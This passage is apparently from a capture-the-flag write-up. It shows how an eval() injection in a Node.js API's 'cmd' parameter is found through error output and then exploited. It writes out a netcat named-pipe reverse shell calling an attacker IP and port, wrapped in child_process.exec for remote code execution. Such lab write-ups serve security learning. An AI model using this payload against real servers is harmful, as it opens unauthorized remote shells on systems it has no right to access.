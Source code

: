 The output shows that `cmd` query is getting a status response!  Let's post to it and see what happens.

```none
🎃 curl -X POST http://[target-ip]/api/items\?cmd\=test
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```

Awesome.  It appears the `cmd` query is trying to run a javascript `eval()` on the value we're passing it.  :space_invader:



Time to look up some reverse shell payloads for netcat! :cat:  [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd) has a good one we can try.

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attacker-ip] [port] >/tmp/f
```

We have to supply our own ip and listening port for netcat to reach us with this payload.  We also are going to need to wrap it so the node server will execute the code.  We can do this with `child_process.exec()` ([link](https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback)).  We can pass a command that will get executed in a shell spawned by the process.

```javascript
require("child_process").exec("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attacker-ip] [port] >/tmp/f")
```

Now let's pass this into the api query.  It'll throw an error if we don't URL encode it first, so using Burp for this works great.

Crafting and sending a request is really easy with Burp Suite so that is what I'll be using.  We can turn on a proxy and capture the requests with Burp and FoxyProxy extension for Firefox.  With the proxy set for `127.0.0.1` and the Burp intercept turned on, we can load the host ip in our browser to capture a raw request body.  
